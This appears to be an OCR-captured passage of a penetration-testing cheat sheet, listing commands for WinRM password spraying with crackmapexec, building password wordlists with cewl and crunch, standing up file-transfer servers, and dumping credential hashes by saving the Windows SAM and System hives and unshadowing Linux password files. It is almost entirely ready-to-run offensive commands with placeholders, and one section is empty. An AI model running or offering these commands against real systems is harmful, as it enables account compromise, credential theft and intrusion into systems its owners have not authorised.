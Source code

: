 ```
crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
```

------

## DICTIONNARY GENERATION

```
cewl -m <WORDS_SIZE> --with-numbers -w dictiFromWebsite <URL> -d <DEPTH>
```

```
crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric-all -t Test@ -o passwords.txt
```

------

## FILE TRANSFER

### Linux

```
python -m SimpleHTTPServer
sudo python3 -m pyftpdlib  -p 21 -w
sudo smbserver.py -smb2support liodeus .
wget <URL>
curl <URL>
```



### Windows



------

## HASHES

### Windows

```
reg save HKLM\SAM c:\SAM
reg save HKLM\System c:\System

samdump2 System SAM > hashes
```

### Linux

```
unshadow passwd shadow > hashes
```

------
